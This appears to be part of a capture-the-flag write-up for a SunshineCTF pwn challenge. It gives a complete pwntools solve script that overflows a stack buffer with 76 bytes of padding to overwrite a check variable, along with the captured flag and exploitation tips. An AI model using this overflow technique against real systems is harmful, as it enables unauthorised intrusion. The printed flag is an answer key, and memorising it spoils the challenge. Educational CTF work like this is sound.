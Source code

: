 The following Python script uses the `pwntools` library to completely automate the exploitation process.

```python
# solve.py
# Author: foqs & Gemini
# To run: python3 solve.py

from pwn import *

# Set the context for the binary for deeper analysis if needed
# context.binary = elf = ELF('./miami')

# Connect to the remote challenge server
# For local testing, use: p = process('./miami')
p = remote('chal.sunshinectf.games', 25601)

# Calculate the offset from the start of the buffer to the target variable
# buffer starts at rbp-0x50
# target variable is at rbp-0x4
# offset = 0x50 - 0x4 = 0x4c = 76
padding_length = 76
padding = b'A' * padding_length

# The value needed to overwrite the variable and pass the check
value_to_overwrite = p32(0x1337c0de)

# Build the final payload
payload = padding + value_to_overwrite

log.info(f"Constructed payload: {payload}")

# Send the payload after receiving the password prompt
p.sendlineafter(b"Enter Dexter's password: ", payload)

# Switch to interactive mode to receive the flag and other output
p.interactive()

```

**Result (Flag)**

Upon executing the script, the server grants access and prints the flag.

`sun{DeXtEr_was_!nnocent_Do4kEs_w4s_the_bAy_hRrb0ur_bu7cher_afterall!!}`

---

## Postmortem / Tips

- This is a classic example of how the most obvious vulnerability (return address overwrite) is not always the easiest path to exploitation.
- Always analyze the program's logical flow carefully after discovering a vulnerability. Developers sometimes leave behind debug mechanisms or logical backdoors that can be much simpler to abuse.
- The absence of a Stack Canary is a huge gift in pwn challenges. It should be one of the first things to check for with `checksec`.

